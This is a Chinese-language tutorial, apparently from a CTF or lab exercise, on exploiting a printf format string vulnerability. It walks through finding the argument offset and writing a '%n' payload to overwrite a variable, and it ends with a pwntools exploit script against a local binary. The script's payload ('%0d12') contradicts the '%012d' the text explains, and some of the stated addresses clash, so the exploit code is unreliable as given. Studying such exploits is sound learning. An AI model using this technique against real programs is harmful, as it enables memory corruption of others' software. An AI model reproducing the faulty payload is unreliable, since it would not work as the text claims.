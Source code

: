 ```
        printf(s);
        if(c == 16){
                puts("modified c.");
        }else if (a == 2){
                puts("modified a for a small number.");
        }else if (b == 0x123456789){
                puts("modified b for a big number!");
        }
        return 0;
}

```

这里要知道无论是覆盖那个地址的变量，我们的payload都如下。

**`...[overwrite addr]....%[overwrite offset]$n`**

其中... 表示我们的填充内容，overwrite addr 表示我们所要覆盖的地址，overwrite offset 地址表示我们所要覆盖的地址存储的位置为输出函数的格式化字符串的第几个参数。所以一般来说，也是如下步骤

- 确定覆盖地址
- 确定相对偏移
- 进行覆盖

这里我们首先要覆盖c，

##### 覆盖开始

首先要知道c的地址，这里我们直接打印出来了。

这是由于 目前几乎上所有的程序都开启了 aslr 保护，所以栈的地址一直在变，所以我们直接打印出来了c的地址。

**首先**，要知道c是第几个参数（虚拟参数），查一下C的16进制是多少。 0x43

![image-20210119144854383](C:\Users\lsp\AppData\Roaming\Typora\typora-user-images\image-20210119144854383.png)

于是发现，格式化字符串地址是0xffffd4e8,而参数开始时d4d0。所以格式化字符串是第6个参数。之前r的时候，顺便看了下c的地址，0xffffdede.

偏移了24，即第6个参数。得出格式化字符串是第6个参数之后。

**其次**，构造payload `[add of c]%012d%6$n`

意思是修改c的值为16 ps: c的地址为4个字节，填充12个0，所以修改为16。

这里add of c 是格式化字符串的开头，所以这里应该是d4e8,然后填充12个0是想告诉n我们有了16个字符了，然后%6$n开始修改，这时候，%6$n对应格式化字符串的地址，也就是add of c然后就修改这个地址，成功。。。



**最后**，写payload

```python
from pwn import *
def forc():
    sh = process('./overflow')
    c_addr = int(sh.recvuntil('\n', drop=True),16)
    print hex(c_addr)
    payload = p32(c_addr) + '%0d12' + '%6$n'
    print payload
    #gdb.attach(sh)
    sh.sendline(payload)
    print sh.recv()
    sh.interactive()
    
forc()
```
